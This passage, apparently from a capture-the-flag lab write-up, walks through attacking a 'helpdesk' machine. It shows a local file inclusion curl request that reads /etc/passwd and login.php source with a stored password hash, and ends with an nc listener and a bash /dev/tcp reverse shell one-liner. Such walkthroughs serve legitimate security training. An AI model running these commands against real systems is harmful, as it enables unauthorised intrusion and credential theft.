 ```bash
tss:x:106:108:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:107:109::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:989:989:Firmware update daemon:/var/lib/fwupd:/usr/sbin/nologin
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
mrmidnight:x:1000:1000:MrMidnight:/home/mrmidnight:/bin/bash
mysql:x:110:110:MySQL Server,,,:/nonexistent:/bin/false
helpdesk:x:1001:1001::/home/helpdesk:/bin/bash
```
### Viewing login.php source code
Including login.php with LFI is a way to peek into the server’s source code to gather information that might help us log in or escalate privileges. So let's do that. 


```bash
curl "http://helpdesk/ticket.php?url=login.php"
```

```bash
// Stored credentials
$stored_user = 'helpdesk';

// SHA-512 hash for password: ticketmaster
$stored_hash = '$6$ABC123$fLo2MacCV.XBQeRZtHWL2297q/fUBs/b8gOmvLGuiz7wDgl3MSWcOOSKnTbaNPoUMCmEpY1dlwuPKbAtIuoo6.';
```

## Remote Command Panel

We were able to find the stored credentials which is perfect. With these credentials, I can now log in via the web panel or use them for SSH access if the same credentials exist for system accounts. After trying the credentials didn't work for the ssh login despite there being a user named helpdesk but we managed to log in to the web panel. 


![Web Panel login](/portfolio/webpanel.png)
*Figure 2: Web Panel after login*


### Reverse Shell
Because the ssh connection could not be established we decided to use a reverse shell in order to connect. 
We enter this on the attacking machine: 
```bash
nc -lvnp 4444
```

On the remote command panel we enter: 

```bash
bash -c "bash -i >& /dev/tcp/192.168.56.101/4444 0>&1"
```

As we can see we got access to a shell. 
